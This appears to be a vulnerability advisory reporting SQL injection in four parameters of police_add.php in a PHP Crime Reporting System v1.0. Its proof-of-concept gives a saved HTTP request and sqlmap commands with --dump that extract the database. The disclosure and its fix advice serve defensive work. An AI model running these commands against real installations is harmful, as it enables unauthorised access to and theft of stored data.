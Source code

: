 # Crime Reporting System - SQL Injection (Police Add)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/police_add.php

> Four parameters `police_name` , `police_id` , `police_spec` and `password` within police_add.php are vulnerable to SQL Injection.


![police_name](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.3crs-policeadd-policename-sqli.png)

![police_id](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.4crs-policeadd-policeid-sqli.png)

![police_spec](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.5crs-policeadd-policespec-sqli.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.6crs-policeadd-password-sqli.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `police_add.txt`:

```
POST /Crime-Reporting-System/police_add.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/police_add.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=83m3g3m53f33hm6so30ku7lng6
Connection: close

police_name=123&police_id=123&police_spec=123&password=123&s=Submit
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_name
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_id
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_spec
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p password
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
